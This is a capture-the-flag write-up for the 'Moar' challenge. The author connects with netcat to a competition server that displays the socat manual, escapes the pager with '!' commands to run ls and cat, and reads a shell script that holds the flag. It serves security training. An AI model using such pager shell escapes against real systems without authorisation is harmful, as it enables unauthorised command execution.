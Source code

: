 ## Moar

You are given a address to connect to using netcat 

```
$ nc moar.ctfcompetition.com 1337
```

Once you connect you will be given the manual for socat. The interesting thing about this manual is that you can still put in commands near the end of it. 

To test this try typing the following:

```
!ls -man 
```

This results in:

```
total 76
drwxr-xr-x  21  1337  1337 4096 Oct 24 19:10 .
drwxr-xr-x  21  1337  1337 4096 Oct 24 19:10 ..
-rwxr-xr-x   1 65534 65534    0 Oct 24 19:05 .dockerenv
drwxr-xr-x   2 65534 65534 4096 Jun 14  2018 bin
drwxr-xr-x   2 65534 65534 4096 Apr 12  2016 boot
drwxr-xr-x   4 65534 65534 4096 Oct 24 19:05 dev
drwxr-xr-x  44 65534 65534 4096 Oct 24 19:05 etc
drwxr-xr-x   3 65534 65534 4096 Jun 14  2018 home
drwxr-xr-x   8 65534 65534 4096 Sep 13  2015 lib
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 lib64
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 media
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 mnt
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 opt
dr-xr-xr-x 110 65534 65534    0 Apr 15 00:24 proc
drwx------   2 65534 65534 4096 Apr 17  2018 root
drwxr-xr-x   5 65534 65534 4096 Apr 17  2018 run
drwxr-xr-x   2 65534 65534 4096 Apr 27  2018 sbin
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 srv
drwxr-xr-x   2 65534 65534 4096 Feb  5  2016 sys
drwxrwxrwt   2  1337  1337   40 Apr 15 00:24 tmp
drwxr-xr-x  10 65534 65534 4096 Apr 17  2018 usr
drwxr-xr-x  11 65534 65534 4096 Apr 17  2018 var
!done  (press RETURN)
```

Great, so let's browse around! Let's check the home file.

```
!ls -man home
total 12
drwxr-xr-x  3 65534 65534 4096 Jun 14  2018 .
drwxr-xr-x 21  1337  1337 4096 Oct 24 19:10 ..
drwxr-xr-x  2 65534 65534 4096 Jun 29  2018 moar
!done  (press RETURN)
```

Okay, the 'moar' directory definitely seems important. Let's check that directory out.

```
!ls -man home/moar
total 24
drwxr-xr-x 2 65534 65534 4096 Jun 29  2018 .
drwxr-xr-x 3 65534 65534 4096 Jun 14  2018 ..
-rw-r--r-- 1 65534 65534  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 65534 65534 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 65534 65534  655 May 16  2017 .profile
-r-xr-xr-x 1 65534 65534  695 Jun 26  2018 disable_dmz.sh
!done  (press RETURN)
```
Hmm, what's this disable_dmz shell? let's try to read it.

```
!cat home/moar/disable_dmz.sh
#!/bin/sh

# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
!done  (press RETURN)
```

Ah, that's where the flag is hiding! 
